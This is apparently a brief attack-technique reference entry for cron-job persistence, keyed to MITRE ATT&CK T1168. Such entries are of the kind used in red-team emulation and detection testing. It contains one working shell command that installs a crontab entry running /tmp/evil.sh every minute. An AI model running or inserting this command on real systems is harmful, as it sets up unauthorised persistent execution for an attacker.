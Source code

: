 # Cron Job

MITRE ATT&CK Technique: [T1168](https://attack.mitre.org/wiki/Technique/T1168)


    echo "* * * * * /tmp/evil.sh" > /tmp/persistevil && crontab /tmp/persistevil
